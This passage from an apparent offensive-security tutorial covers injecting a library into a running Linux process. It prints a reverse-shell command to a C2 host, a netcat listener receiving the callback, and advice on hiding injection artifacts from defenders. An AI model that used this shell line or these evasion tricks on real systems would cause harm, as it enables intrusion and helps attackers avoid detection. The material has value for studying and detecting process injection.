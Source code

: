 Checking netcat, we've caught the callback:
```bash
[stuart@c2server:/home/stuart]
$ nc -nvl 4444
Connection from <REDACTED> 50184 received!
ps -fxo pid,user,args
...snip...
  664 root     /sbin/lvmetad -f
 1591 root      \_ sh -c echo 'exec >&/dev/tcp/<REDACTED>/4444; exec 0>&1' | /bin/bash
 1593 root          \_ /bin/bash
 1620 root              \_ ps -fxo pid,user,args
...snip...
```

That's it, we've got execution in another process.

If the injection had failed, we'd have seen `$1 = 0`, indicating
`__libc_dlopen_mode` returned `NULL`.

Artifacts
---------

There are several places defenders might catch us.  The risk of detection can
be minimized to a certain extent, but without a rootkit, there's always some
way to see we've done something.  Of course, the best way to hide is to not
raise suspicions in the first place.

### Process listing

A process listing like the one above will show that the process into which
we've injected malware has funny child processes.  This can be avoided by
either having the library doule-fork a child process to do the actual work or
having the injected library do everything from within the victim process.

### Files on disk

The loaded library has to start on disk, which leaves disk artifacts, and the
original path to the library is visible in `/proc/pid/maps`:
```bash
root@ubuntu-s-1vcpu-1gb-nyc1-01:~# cat /proc/664/maps                                                      
...snip...
7f6ca0650000-7f6ca0651000 r-xp 00000000 fd:01 61077    /root/libcallback.so                        
7f6ca0651000-7f6ca0850000 ---p 00001000 fd:01 61077    /root/libcallback.so                        
7f6ca0850000-7f6ca0851000 r--p 00000000 fd:01 61077    /root/libcallback.so
7f6ca0851000-7f6ca0852000 rw-p 00001000 fd:01 61077    /root/libcallback.so            
...snip...
```
If we delete the library, `(deleted)` is appended to the filename (i.e.
`/root/libcallback.so (deleted)`), which looks even weirder.  This is somewhat
mitigated by putting the library somewhere libraries normally live, like
`/usr/lib`, and naming it something normal-looking.

### Service disruption
